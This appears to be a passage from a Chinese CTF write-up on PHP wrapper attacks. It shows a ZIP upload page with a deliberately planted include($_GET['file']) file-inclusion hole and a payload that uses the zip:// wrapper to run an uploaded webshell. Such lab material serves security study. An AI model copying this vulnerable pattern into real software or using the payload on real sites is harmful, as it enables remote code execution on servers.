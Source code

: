 ```php
                // 指定文件保存路径
                $new_filename = $upload_dir . basename($filename);
                // 移动文件到指定目录
                if (move_uploaded_file($_FILES['fileUpload']['tmp_name'], $new_filename)) {
                    echo "文件上传成功：文件位置为".$new_filename;
                } else {
                    echo "文件上传失败，请稍后再试。";
                }
            } else {
                echo "只允许上传ZIP格式的文件。";
            }
        } else {
            echo "文件上传过程中发生错误。";
        }
    }
	echo 'include($_GET["file"])';
	if (isset($_GET['file'])){
        	include($_GET['file']);
    	}
    ?>
    <form action="" method="post" enctype="multipart/form-data">
        <label for="fileUpload">选择ZIP文件:</label>
        <input type="file" id="fileUpload" name="fileUpload" accept=".zip">
        <input type="submit" value="上传文件" name="submit">
    </form>
</body>
</html>
```

![zip_upload](F:\桌面\CTFShow\php伪协议image\zip_upload.png)



可以构造zip压缩包利用zip://伪协议包含zip文件中的webshell

![zip_1](.\php伪协议image\zip_1.png)

payload：

```php
?file=zip://uploads/shell.zip%23shell.php
```
